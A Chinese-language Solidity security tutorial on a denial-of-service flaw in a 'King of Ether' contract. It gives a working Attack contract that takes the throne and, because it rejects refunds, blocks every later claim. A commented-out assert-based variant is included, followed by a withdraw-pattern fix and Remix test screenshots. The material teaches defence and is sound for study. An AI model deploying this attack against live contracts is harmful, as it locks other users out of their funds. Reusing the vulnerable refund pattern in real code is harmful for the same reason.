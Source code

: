 # 72.Denial of Service
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太币的函数失败来实现拒绝服务。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
KingOfEther的目标是通过发送比前任国王更多的以太币来成为国王。前任国王将获得他发送的以太币的退款。
*/

/*
1. 部署KingOfEther。
2. Alice通过发送1 以太币来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太币来调用claimThrone()函数成为了国王。Alice收到了1 以太币的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太币。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太币。
*/

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 你还可以通过使用assert消耗所有的燃料来执行DOS攻击。
    // 即使调用合约没有检查调用是否成功，此攻击也会起作用。
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太币而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

# remix验证
部署合约KingOfEther，1地址通过发送1 以太币来调用claimThrone()函数成为了国王。
![72-1.png](./img/72-1.png)
2地址通过发送2 以太币来调用claimThrone()函数成为了国王。1地址收到了1 以太币的退款。
![72-2.png](./img/72-2.png)
部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太币。当前的国王是Attack合约。
![72-3.png](./img/72-3.png)
